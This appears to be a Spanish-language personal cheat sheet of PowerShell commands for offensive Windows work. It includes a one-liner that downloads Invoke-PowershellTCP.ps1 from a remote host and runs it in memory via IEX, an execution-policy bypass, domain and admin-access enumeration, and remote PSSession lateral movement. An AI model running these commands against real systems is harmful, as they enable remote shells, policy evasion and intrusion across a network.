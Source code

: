 # Powershell

Tags: #Windows #Powershell #Comandos 

Extensiones:
	* .ps1
	* .psm1
	* .psd1

```powershell 
# Cargar un binario en PS desde memoria 

❯ powershell -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Omar/Invoke-PowershellTCP.ps1')"

Nota: Se coloca 'powershell -c' si no se ejecuta en un entorno de Powershell 
```

```powershell
❯ Import-Module .\Script.ps1       # Importar un modulo para utilizar los submodulos 
```

```powershell
❯ powershell -ep bypass                # Politica que nos permite bypass y poder ejecutar scripts en PS
 	# ep = Ejecutar politicas 
❯ ..\script.ps1                        # Ejecutar el binario en PS
```

## Enumeración

```powershell
❯ net user /domain                   # Mirar los usuarios del dominio 
❯ net user                           # Mirar los usuarios locales 
❯ net localgroup administrators      # Muestra los miebros del grupo local de administradores
```

```powershell 
❯ Find-WMILocalAdminAccess.ps1 -Verbose  # Enumeración de otras maquinas donde el usuario actual tiene acceso 
```

## Creación de una sesión a un servidor 

```powershell
❯ $session = New-PSSession -ComputerName 'server_name' -verbose  # Crear una variable para una nueva sesion
❯ $session    # Mirar el ID, Name, ComputerName
❯ Invoke-Command -Session $session -ScriptBlock {whoami;ipconfig} -verbose 
❯ Enter-PSSession -Session $session -verbose         # Ingresar a la session del servidor con una consola en PowerShell 

	❯ klist      # Mirar los ticktes 
```